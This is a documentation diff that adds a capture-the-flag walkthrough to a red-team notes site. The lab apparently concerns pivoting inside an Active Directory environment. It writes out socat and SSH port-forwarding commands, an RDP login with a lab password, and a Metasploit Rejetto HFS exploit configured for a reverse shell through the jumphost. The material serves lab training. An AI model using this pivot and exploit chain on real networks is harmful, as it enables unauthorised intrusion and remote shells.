

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/pivot/portforward.md, in a window 1280 px wide and 1400 px high, scrolled down 4238 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/pivot/portforward.md
+++ b/source/docs/pivot/portforward.md
@@ -125,11 +125,58 @@ If we now want to execute any command through the proxy, we can use `proxychains
 
 **Note: nmap might not work well with SOCKS in some circumstances**
 
-## Flag
+## Flags
 
 * Connect to THMJMP2 via SSH using the credentials from the first task.
 * Connect via RDP to THMIIS using `socat`.
 * Exploit vulnerable Rejetto HFS on the Domain Controller.
+
+### RDP to THMIIS
+
+With the credentials from the distributor, ssh into the jumphost:
+
+    ssh username@za.tryhackme.com@thmjmp2@za.tryhackme.com
+
+On the jumphost, run socat:
+
+    C:\tools\socat\>socat TCP4-LISTEN:50000,fork TCP4:THMIIS.za.tryhackme.com:3389
+
+The firewall is disabled.
+
+Set up a listener on port 50000 on the attack machine, and connect to THMIIS via RDP from the attack machine by
+pivoting through the listener at THMJMP2:
+
+    xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
+
+Flag is on desktop of t1_thomas.moore.
+
+### Exploit Rejetto HFS on the Domain Controller
+
+Use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7777:127.0.0.1:7777` to the ssh command on
+the jumphost THMJMP2. This will bind both ports on THMJMP2 and tunnel any connection back to the attack machine:
+
+    C:\> ssh tunneluser@<IP attack machine> -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N
+
+Start Metasploit and configure the exploit so that the required ports match the ports forwarded through THMJMP2:
+
+```text
+msfconsole
+msf6 > use rejetto_hfs_exec
+msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp
+
+msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
+msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
+msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777
+
+msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
+msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
+
+msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
+msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
+msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
+```
+
+Receive a shell back at the attack machine. The flag is on `C:\hfs\flag.txt`.
 
 ## Resources
 
````
